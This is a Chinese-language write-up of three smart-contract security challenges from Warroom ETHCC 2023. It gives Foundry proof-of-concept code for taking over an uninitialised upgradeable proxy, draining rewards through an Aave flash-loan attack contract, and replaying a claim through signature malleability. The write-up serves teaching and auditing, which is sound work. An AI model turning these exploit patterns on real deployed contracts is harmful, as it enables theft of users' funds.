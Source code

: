 ## Warroom ETHCC 2023

### Task 1 - Proxy capture 15 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/proxy): 

知識點:
-  合約未初始化
-  可更新合約 upgradeable contract

解題:
- 要先初始化拿到 owner
- 把自己加入白名單
- 提出合約上的 balance
- 更新合約到新合約, 其他人就無法初始化

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/proxy/Proxy.t.sol)
```
// attacker can call initialize
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call{value: 0.1 ether}(
            abi.encodeWithSignature("initialize(address)", address(0))
        );
        assertTrue(validResponse);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("owner()")
        );
        assertTrue(validResponse);
        owner = abi.decode(returnedData, (address));
        assertEq(owner, attacker);

// cannot update without whitelisting
        vm.prank(attacker);
        vm.expectRevert(bytes("!whitelisted"));
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("upgradeTo(address)", address(0))
        );

        // whitelist owner
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("whitelistUser(address)", attacker)
        );
        
        // cannot update without withdrawing funds
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("withdraw(uint256)", 2)
        );

        // upgrade proxy
        vm.prank(attacker);
        (validResponse, returnedData) = address(proxy).call(
            abi.encodeWithSignature("upgradeTo(address)", address(takeOwnership))
        );
        assertTrue(validResponse);
```


### Task 2 - Flash loan 25 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/test/flashloan): 

知識點:
-  Flashloan

解題:
- 只要totalLoan大於10k 就可以removeLoan.
- 透過aave  flashloan 會自己還款, 不需要另外寫 transfer

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/flashloan/Loan.t.sol)
```
        AttackLoan attackLoan = new AttackLoan(address(loan));
        deal(address(DAI), address(attackLoan), minFlashLoan / 1e3);

        vm.prank(attacker);
        iPool.flashLoanSimple(address(attackLoan), address(DAI), minFlashLoan, "", 0);

---
Attack contract
function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initiator,
        bytes calldata params
    ) external override returns (bool) {
        require(msg.sender == address(POOL), "!pool");
        IERC20(asset).approve(address(POOL), amount + premium);

        console.log("Sending to loan contract");  
IERC20(asset).transfer(address(loan), amount + premium);
				
        console.log("Calling flash loan on loan contract");
        POOL.flashLoanSimple(address(loan), asset, amount, "", 0);

        // take all rewards
        console.log("Taking all rewards");
        console.log("Initator: %s", initiator);
        uint256 rewardBalance = IERC20(loan.rewardToken()).balanceOf(address(loan));
        loan.removeLoan(loan.rewardToken(), rewardBalance);
        console.log("Sending rewards to initiator: %d", rewardBalance);
        IERC20(loan.rewardToken()).transfer(initiator, rewardBalance);
        // withdraw send amount
        console.log("Withdraw asset from loan contract");
        loan.removeLoan(asset, amount);

        console.log("Should have enough to repay flash loan");
        require(IERC20(asset).balanceOf(address(this)) >= amount + premium, "!payout");
        // @note he funds will be automatically pulled at the conclusion of your operation.
        return true;
    }
}
```

### Task 3 - Signature malleability 30 points
[題目](https://github.com/spalen0/warroom-ethcc-2023/tree/master/src/signature): 

知識點:
-  Signature malleability 


解題:
- 透過 flip s技巧產生不同signature 但會得到相同 signer. 
- 修補: 使用 openzeppelin's library to prevent malleability attacks and recover to zero issues 和加上 nonce

[POC](https://github.com/spalen0/warroom-ethcc-2023/blob/master/test/signature/WhitelistedRewards.t.sol)
```
function testReuseSignature() public {
        uint256 whitelistedAmount = amount / 2;
        bytes32 digest = keccak256(abi.encodePacked(whitelistedAmount));
        uint256 pk = 22;
        address signer = vm.addr(pk);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, digest);

        vm.prank(signer);
        rewards.claim(whitelisted, whitelistedAmount, v, r, s);
        assertEq(token.balanceOf(whitelisted), whitelistedAmount);

        // verify that the same signature cannot be used again
        vm.expectRevert(bytes("used"));
        rewards.claim(whitelisted, whitelistedAmount, v, r, s);

        // The following is math magic to invert the signature and create a valid one
        // flip s
        bytes32 s2 = bytes32(uint256(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141) - uint256(s));

        // invert v
        uint8 v2;
        require(v == 27 || v == 28, "invalid v");
        v2 = v == 27 ? 28 : 27;

        vm.prank(user);
        rewards.claim(user, whitelistedAmount, v2, r, s2);
        assertEq(token.balanceOf(user), whitelistedAmount);
    }
```
